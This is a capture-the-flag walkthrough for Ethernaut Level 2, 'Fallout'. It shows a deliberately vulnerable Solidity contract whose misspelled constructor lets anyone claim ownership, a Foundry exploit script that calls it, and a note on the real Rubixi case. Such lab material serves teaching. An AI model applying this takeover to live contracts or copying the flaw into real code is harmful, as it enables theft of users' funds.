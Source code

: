 # Level 2 - Fallout ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/2" %}

### Level Setup

{% hint style="info" %}
Claim ownership of the contract below to complete this level.

&#x20; Things that might help

* Solidity Remix IDE
{% endhint %}

### Level Contract

{% @github-files/github-code-block url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Fallout.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
{% endcode %}

### Exploit

The contract uses an old method of defining the constructor by (attempting) to set it as the same name as the contract. In this instance, they made a mistake and there's a typo on the "constructor" which means it's different from the contract name, and therefore wasn't run on contract creation and can be run by anyone.

1. Call the function either using an interface or a `.call` with the function signature.

```bash
make exploit-level-2
<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```

{% @github-files/github-code-block url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level2.s.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {GetInstanceAddress} from "script/HelperFunctions.s.sol";

interface Fallout {
    function Fal1out() external payable;
}

contract Exploit is Script, GetInstanceAddress {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        Fallout targetContract = Fallout(targetContractAddress);

        vm.startBroadcast();
        targetContract.Fal1out{value: 0}();
        vm.stopBroadcast();
    }
}

// contract Exploit is Script, GetInstanceAddress {
//     function run() public {
//         address targetContractAddress = getInstanceAddress();

//         // Function signature
//         bytes memory payload = abi.encodeWithSignature("Fal1out()");

//         vm.startBroadcast();
//         (bool success, ) = targetContractAddress.call{value: 0}(payload);
//         require(success, "Transaction failed");
//         vm.stopBroadcast();
//     }
// }
```
{% endcode %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
{% endhint %}

### Notes

* This exploit occurred because before Solidity `v0.5.0` it was not mandatory to name the constructor `constructor`. This was updated with a [breaking change in the `v0.5.0` release](https://docs.soliditylang.org/en/latest/050-breaking-changes.html#constructors).
* Even though this contract uses `v0.6.0` this mistake still happened.
* Exploited contract: [https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be](https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be)
